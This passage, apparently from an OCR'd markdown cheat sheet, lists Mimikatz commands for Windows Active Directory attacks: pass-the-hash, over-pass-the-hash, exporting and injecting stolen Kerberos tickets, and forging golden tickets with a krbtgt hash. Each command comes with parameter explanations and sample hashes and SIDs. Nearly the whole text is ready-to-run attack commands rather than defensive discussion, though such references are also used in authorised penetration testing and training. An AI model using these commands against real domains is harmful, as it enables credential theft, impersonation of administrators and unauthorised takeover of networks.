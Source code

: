 ### 2. Pass-the-Hash Attacks

#### Basic Pass-the-Hash
```cmd
# Use NTLM hash to authenticate as user
mimikatz # sekurlsa::pth /user:administrator /domain:company.local /ntlm:a9fdfa038c4b75ebc76dc855dd74f0da /run:cmd.exe

# Parameters explained:
# /user: - Target username
# /domain: - Target domain
# /ntlm: - NTLM hash of the user
# /run: - Command to execute with the new context
```

#### Advanced Pass-the-Hash
```cmd
# Pass-the-Hash with specific process
mimikatz # sekurlsa::pth /user:admin /domain:company.local /ntlm:hash /run:powershell.exe

# Pass-the-Hash with custom command
mimikatz # sekurlsa::pth /user:admin /domain:company.local /ntlm:hash /run:"cmd.exe /k whoami"

# Over-Pass-the-Hash (use hash to get Kerberos ticket)
mimikatz # sekurlsa::pth /user:admin /domain:company.local /ntlm:hash /run:cmd.exe
# In new cmd window:
klist
# Request Kerberos authentication to any service
dir \\dc.company.local\c$
```

### 3. Kerberos Attacks

#### Pass-the-Ticket
```cmd
# List current Kerberos tickets
mimikatz # kerberos::list

# Extract all Kerberos tickets to files
mimikatz # kerberos::list /export

# Inject stolen ticket into current session
mimikatz # kerberos::ptt ticket.kirbi

# Clear all tickets from current session
mimikatz # kerberos::purge
```

#### Golden Ticket Attack
```cmd
# Create Golden Ticket (requires krbtgt hash)
mimikatz # kerberos::golden /user:administrator /domain:company.local /sid:S-1-5-21-1234567890-987654321-1122334455 /krbtgt:81d310fa7e5318bf8a2e6c6e1dea26e7 /ptt

# Parameters:
# /user: - Username to impersonate (can be fake)
# /domain: - Target domain
# /sid: - Domain SID (without RID)
# /krbtgt: - krbtgt account NTLM hash
# /ptt: - Pass-the-ticket (inject immediately)

# Alternative: Save to file
mimikatz # kerberos::golden /user:administrator /domain:company.local /sid:S-1-5-21-1234567890-987654321-1122334455 /krbtgt:81d310fa7e5318bf8a2e6c6e1dea26e7 /ticket:golden.kirbi
```